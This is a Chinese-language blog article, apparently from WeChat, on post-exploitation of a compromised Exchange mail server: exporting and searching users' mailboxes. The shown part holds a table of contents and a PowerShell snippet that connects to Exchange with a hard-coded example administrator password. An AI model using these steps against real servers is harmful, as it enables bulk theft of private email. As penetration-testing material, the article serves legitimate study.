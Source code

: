 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/6pH_I_VrTUwuOywuOurUKw)

Exchange 邮箱服务器后利用

  

**目录**

  

  

使用 PSSession 连接 Exchange 服务器管理邮件  
    导出邮件  
        导出所有用户的所有邮件  
        导出指定用户的所有邮件  
        筛选导出邮件  
        导出请求记录  
    使用 powershell 脚本导出邮件  
        导出指定用户的所有邮件  
        导出所有用户的所有邮件  
    搜索邮件  
        搜索邮件的常用命令  
        使用 powershell 脚本搜索  
    在 Exchange 服务器上直接管理邮件  
    导出邮件  
        导出所有用户的所有邮件  
        导出指定用户的所有邮件  
        使用 powershell 脚本导出邮件  
    搜索邮件  
        搜索邮件的常用命令  
        使用 powershell 脚本搜索

  

作者：谢公子 @深蓝攻防实验室

当我们拿到了 Exchange 邮箱服务器权限后，我们可以进行进一步的利用。比如导出所有用户或指定用户的邮件、搜索特定用户或所有用户的敏感邮件等等。

![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucCiayA3GECqVoib2sEloM0Sl1BMwTpo3AhHkjqoy8hAdMRhibaSqrdZj8s0PMHBZAH9LHLfxhSmQOUUow/640?wx_fmt=png)

使用 PSSession 连接 Exchange 服务器管理邮件

首先使用 PSSession 连接 Exchange 服务器

  

  

#使用 PSSession 连接 Exchange 服务器

$User = "xie\administrator"

$Pass = ConvertTo-SecureString -AsPlainText P@ssword1234 -Force

$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass

$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://mail.xie.com/PowerShell/ -Authentication Kerberos -Credential $Credential

Import-PSSession $Session -AllowClobber
